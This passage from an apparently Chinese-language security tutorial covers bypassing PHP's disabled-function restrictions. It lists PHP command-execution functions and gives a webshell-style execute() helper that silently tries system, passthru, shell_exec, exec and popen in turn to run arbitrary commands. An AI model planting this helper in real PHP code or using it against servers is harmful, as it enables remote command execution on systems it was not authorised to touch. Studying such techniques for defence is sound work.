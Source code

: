 既然有限制，那么就有人想方设法绕过







## 0x01 绕过



### 方法一：寻找漏网之鱼

一般来说，php中可以直接执行系统命令的函数如下：

```
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,``(反单引号)
```

如果，过滤不全，就可以直接使用来执行命令。

```
function execute($cfe) { 
       $res = '';
       if ($cfe) {
              if(function_exists('system')) {
                     @ob_start();
                     @system($cfe);
                     $res = @ob_get_contents();
                     @ob_end_clean();
              } elseif(function_exists('passthru')) {
                     @ob_start();
                     @passthru($cfe);
                     $res = @ob_get_contents();
                     @ob_end_clean(); 
              } elseif(function_exists('shell_exec')) { 
                     $res = @shell_exec($cfe); 
              } elseif(function_exists('exec')) { 
                     @exec($cfe,$res);
                     $res = join("\n",$res); 
              } elseif(@is_resource($f = @popen($cfe,"r"))) {
                     $res = '';
                     while(!@feof($f)) {
                            $res .= @fread($f,1024);
                     }
                     @pclose($f);
              }
       } 
       return $res;
}
```



**passthru()**

功能描述：允许执行一个外部程序并回显输出，类似于 exec()。
危险等级：高
